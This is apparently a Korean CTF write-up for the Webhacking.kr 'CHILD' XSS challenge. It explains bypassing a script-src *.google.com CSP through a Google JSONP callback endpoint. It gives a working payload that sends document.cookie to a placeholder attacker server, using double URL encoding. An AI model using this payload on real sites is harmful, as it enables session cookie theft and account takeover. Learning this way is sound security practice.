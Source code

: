 ```yaml
---
title: ["[Webhacking.kr] CHILD (xss - 150)"]
date: 2024-12-01 09:00:00 +0900
categories: [writeup, webhacking.kr]
tags: [web, xss, csp bypass, bypass using jsonp]
---
```


XSS 문제이다.  

```
?inject=<script>alert(1)</script>

Refused to execute inline script because it violates the following Content Security Policy directive: "script-src https://*.google.com/". Either the 'unsafe-inline' keyword, a hash ('sha256-bhHHL3z2vDgxUt0W3dWQOrprscmda2Y5pLsLg4GF+pI='), or a nonce ('nonce-...') is required to enable inline execution.
```

마찬가지로 CSP가 걸려있다.  
`script-src https://*.google.com/`은, 스크립트 소스를 `*.google.com`으로 제한하고 있다.  

### Third Party Endpoints + JSONP
[Bypass using JSONP](https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass#third-party-endpoints--jsonp) 가 가능할 것 같다.  

JSONP(JSON with Padding)는 SOP(Same Origin Policy)의 제한을 우회하기 위해 만들어진 방식인데,  
JSONP의 callback 파라미터를 통해 javascript 코드를 실행하여 CSP 우회도 가능하다.  

여러 방식이 있었는데, XSS가 안터졌고,  
[이곳](https://www.cobalt.io/blog/csp-and-bypasses)에서 소개된 페이로드가 작동했다.  

```
?inject=<script+src="https://accounts.google.com/o/oauth2/revoke?callback=alert(1)"></script>
```
alert가 뜬다.

BABY에서 사용한 서버를 다시 세팅해주고,  
```
?inject=<script+src="https://accounts.google.com/o/oauth2/revoke?callback=document.location.href='http://{MY_SERVER_IP}/steal?cookie='%252bencodeURIComponent(document.cookie);"></script>
```

페이로드를 동작하게 하기 위해 두 가지 삽질을 했다.

먼저, `'http://server.com/?cookie='+document.cookie`가 URL Encoding의 영향인지 동작하지 않았다.  
`+`를 처리하기 위해 `%2b`를 했지만, 역시나 동작하지 않았다.  

관련된 문제를 구글링 해보니, 더블 인코딩을 해야 한다.  
즉, `+`를 `%252b`로 표현할 수 있다.  

두번째로, `;`을 포함하지 않았다.  
이건 왜 없을 때 안되는지 모르겠다..